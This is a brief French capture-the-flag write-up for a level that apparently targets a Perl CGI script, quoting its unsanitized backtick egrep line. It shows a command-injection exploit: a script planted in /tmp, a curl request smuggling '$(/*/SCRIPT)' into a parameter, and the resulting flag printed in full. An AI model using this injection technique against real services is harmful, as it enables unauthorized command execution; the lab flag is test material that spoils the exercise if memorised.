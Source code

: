 Dans ce Niveau on a un fichier ```level12.pl```

Cette ligne injecte direct une commande ```@output = `egrep "^$xx" /tmp/xd 2>&1`;```

On va exploiter cette faille en creant un "script" avec ```echo "getflag > /tmp/res.txt" > /tmp/SCRIPT && chmod +x /tmp/SCRIPT```

Et lui envoyer avec ```curl 'localhost:4646?x=$(/*/SCRIPT)&y=hello'```

Ensuite on ```cat /tmp/res.txt``` pour obtenir le flag ```g1qKMiRpXf53AWhDaU7FEkczr```
